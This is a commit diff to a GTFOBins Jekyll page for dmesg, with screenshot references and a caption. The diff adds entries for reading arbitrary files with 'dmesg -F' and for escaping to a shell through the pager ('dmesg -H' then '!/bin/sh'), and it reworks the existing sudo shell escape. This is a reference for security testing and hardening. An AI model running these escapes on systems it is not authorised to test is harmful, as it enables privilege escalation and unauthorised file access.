

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/dmesg.md, in a window 1280 px wide. Shown: the top 835 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update dmesg.md

```diff
--- a/_gtfobins/dmesg.md
+++ b/_gtfobins/dmesg.md
@@ -1,9 +1,17 @@
 ---
-description: |
-  This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
 functions:
+  file-read:
+    - code: |
+        LFILE=file_to_read
+        dmesg -F "$LFILE"
+  shell:
+    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
+      code: |
+        dmesg -H
+        !/bin/sh
   sudo:
-    - code: |
+    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
+      code: |
         sudo dmesg -H
         !/bin/sh
 ---
```
